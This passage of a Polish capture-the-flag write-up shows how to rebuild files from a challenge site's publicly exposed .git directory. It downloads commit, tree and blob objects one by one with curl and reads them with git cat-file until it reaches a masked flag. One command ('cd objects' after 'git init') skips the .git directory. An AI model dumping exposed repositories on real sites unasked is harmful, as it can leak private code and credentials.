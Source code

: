 Jak jednak znaleźć inne obiekty i commity? Wszystkie obiekty w gicie są zapisywane w katalogu objects w dwuliterowych podkatalogach, będących pierwszym bajtem sumy kontrolnej obiekty. Znaczy to, ze obiekt 795727cd49e0c4f49581151c9ec6bd856650f842 będzie zapisany jako `.git\objects\79\5727cd49e0c4f49581151c9ec6bd856650f842`

Na początek stwórzmy sobie nowe repozytorium na dysku i skopiujmy ten obiekt do odpowiedniego katalogu:

```
$ mkdir trol
$ cd trol
$ git init
$ cd objects
$ mkdir 79
$ curl --output "79/5727cd49e0c4f49581151c9ec6bd856650f842" https://1753ctf.ams3.digitaloceanspaces.com/g/.git/objects/79/5727cd49e0c4f49581151c9ec6bd856650f842
```

Teraz majac ściągniety odpowiedni obiekt, mozemy go odczytać. Jest on w formie binarnej, wiec zwykły cat nie dużo nam da, ale mozemy użyć komendy `git cat-file -p 795727cd49e0c4f49581151c9ec6bd856650f842` która pozwoli nam odczytać zawartosć tego pliku:

```
$ git cat-file -p 795727cd49e0c4f49581151c9ec6bd856650f842
tree bb267f6a5f9435055601fd827b9d863fa50374be
parent e5c87aa73fcb1536dddfede926583ef2e0c83f9d
author Łukasz Wroński <lukasz@lukaszwronski.pl> 1645961948 +0100
committer Łukasz Wroński <lukasz@lukaszwronski.pl> 1645961948 +0100

stylowanko
```

Mamy tu kilka ważnych informacji, przede wszystkim widzimy hash obiektu typu "tree" powiązanego z tym commitem, po drugie widzimy parent commit. Oprócz tego mamy informacje o autorze i komentarz do danego commita.

Powtózmy wiec proces wypracowany wcześniej aby odczytać zawartosć obiektu typu tree:

```
$ mkdir bb
$ curl --output "bb/267f6a5f9435055601fd827b9d863fa50374be" https://1753ctf.ams3.digitaloceanspaces.com/g/.git/objects/bb/267f6a5f9435055601fd827b9d863fa50374be
$ git cat-file -p bb267f6a5f9435055601fd827b9d863fa50374be
100644 blob 9930221ea79d7877c2b143675f2999080c21e116    index.html
```

W efekcie dostajemy hash obiektu typu blob, który zawiera już dane naszego pliku wrzuconego na gita, reiterując poprzedni proces mozemy wyświetlić zawartosć tego pliku:

```
$ mkdir 99
$ curl --output "99/30221ea79d7877c2b143675f2999080c21e116" https://1753ctf.ams3.digitaloceanspaces.com/g/.git/objects/99/30221ea79d7877c2b143675f2999080c21e116
$ git cat-file -p 9930221ea79d7877c2b143675f2999080c21e116
<h1>Flaga w tym zadaniu to 1753c{***********}</h1>
```
